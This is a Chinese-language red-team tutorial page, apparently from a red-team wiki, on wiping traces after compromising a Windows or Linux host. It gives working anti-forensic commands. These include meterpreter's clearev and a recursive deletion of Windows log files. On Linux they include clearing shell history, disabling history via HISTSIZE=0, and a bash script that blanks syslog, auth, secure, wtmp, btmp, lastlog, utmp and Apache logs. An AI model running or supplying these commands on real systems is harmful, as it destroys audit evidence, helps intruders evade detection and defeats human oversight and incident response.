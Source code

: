 仅系统日志清理，如果目标服务存在日志服务器的话，所有日志还会被保留。这里仅清理系统相关日志，如果访问了某些服务，比如说通过 apache 服务获得一个 shell，你还需要清理 apache 服务的访问日志。

## 1 Windows 用 sdelete

> Windows 下运行 eventvwr 查看日志

msf 清理

```
meterpreter > clearev
```

cmd 清理

```
meterpreter > shell
C:\Windows\system32>del %WINDIR%\*.log /a/s/q/f
```

## 2 Linux 用 shred

>Linux 可能根据发行版本不同，日志文件名称也有所不同。所以具体清除需要大家先看一下目标操作系统

清理历史命令（仅能清理当下进程）

```
[root@CentOS-76 ~]# history -c
```

使系统不再保存历史命令

```
[root@CentOS-76 ~]# vim /etc/profile
```

> 将 `HISTSIZE=1000` 改为 `HISTSIZE=0`，

```
HISTSIZE=1000
```

```
HISTSIZE=0
```

删除访问日志

1. 访问失败的日志

```
[root@CentOS-76 ~]# echo > /var/log/btmp
```

2. 访问成功的日志

```
[root@CentOS-76 ~]# echo > /var/log/wtmp
```

> 删除后执行 `last` 命令就会发现没有记录

执行脚本

```
[root@CentOS-76 ~]# source clear_logs_linux.sh
```

```sh
#!/bin/bash
#Linux 日志&命令清理
echo > /var/log/syslog
echo > /var/log/messages
echo > /var/log/httpd/access_log
echo > /var/log/httpd/error_log
echo > /var/log/xferlog
echo > /var/log/secure
echo > /var/log/auth.log
echo > /var/log/user.log
echo > /var/log/wtmp
echo > /var/log/lastlog
echo > /var/log/btmp
echo > /var/run/utmp
history -c
```

> source 在当前进程下执行
>
> 执行时注意文件是否有执行权限。而且只有 root 才可以删除日志。

---

References

- [日志清理](https://wiki.iredteam.cn/the-report-stage/log-cleaning)